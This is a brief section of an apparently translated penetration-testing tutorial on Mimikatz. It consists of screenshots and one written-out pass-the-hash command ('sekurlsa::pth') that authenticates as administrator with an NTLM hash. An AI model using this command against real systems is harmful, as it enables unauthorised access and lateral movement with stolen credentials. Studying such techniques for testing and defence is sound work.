 # 4.2.4.1 Mimikatz

> 原文：[https://www.zhihuifly.com/t/topic/3429](https://www.zhihuifly.com/t/topic/3429)

#### 4.2.4.1 Mimikatz

![image](img/f711b347de20033186f04c266ddaaa21.png)

![image](img/540004dad82c0f7c435f152ddd1ee5e9.png)

```
mimikatz # sekurlsa::pth /user:administrator /domain:. /ntlm:c5113714efbff7fa196f2e2b50938a8f 
```

![image](img/b03b474d03bd6c8966010f4b054a4314.png)